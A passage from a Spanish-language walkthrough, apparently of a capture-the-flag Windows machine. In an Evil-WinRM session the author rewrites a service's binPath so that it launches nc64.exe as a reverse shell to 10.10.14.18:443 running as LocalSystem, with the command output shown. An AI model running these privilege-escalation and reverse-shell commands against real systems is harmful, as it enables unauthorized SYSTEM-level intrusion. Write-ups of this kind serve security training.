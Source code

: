 ```csharp
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc    

*Evil-WinRM* PS C:\Windows\Temp>
```

Despues de intentar con varios servicios vemos que podemos realizar la modificación con el servicio VWTools

```csharp
*Evil-WinRM* PS C:\Windows\Temp> sc.exe config WMPNetworkSvc binPath="C:\Windows\Temp\nc64.exe -e cmd 10.10.14.18 443"
[SC] OpenService FAILED 5:

Access is denied.

*Evil-WinRM* PS C:\Windows\Temp> sc.exe config WinDefend binPath="C:\Windows\Temp\nc64.exe -e cmd 10.10.14.18 443"
[SC] OpenService FAILED 5:

Access is denied.

*Evil-WinRM* PS C:\Windows\Temp> sc.exe config WdNisSvc binPath="C:\Windows\Temp\nc64.exe -e cmd 10.10.14.18 443"
[SC] OpenService FAILED 5:

Access is denied.

*Evil-WinRM* PS C:\Windows\Temp> sc.exe config VMTools binPath="C:\Windows\Temp\nc64.exe -e cmd 10.10.14.18 443"
[SC] ChangeServiceConfig SUCCESS
```

Ahora lo que debemos realizar es un reinicio del servicio, para eso debemos hacerlo con el comando strop  y luego iniciarlo con el comando start, pero primero con el comando qc podemos ver si se realizó la modificación de este  y vemos que en BINARY_PATH_NAME, tenemos nuestra carga maliciosa 

```csharp
*Evil-WinRM* PS C:\Windows\Temp> sc.exe qc VMTools
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\Temp\nc64.exe -e cmd 10.10.14.18 443
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : VMware Tools
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
*Evil-WinRM* PS C:\Windows\Temp>
```
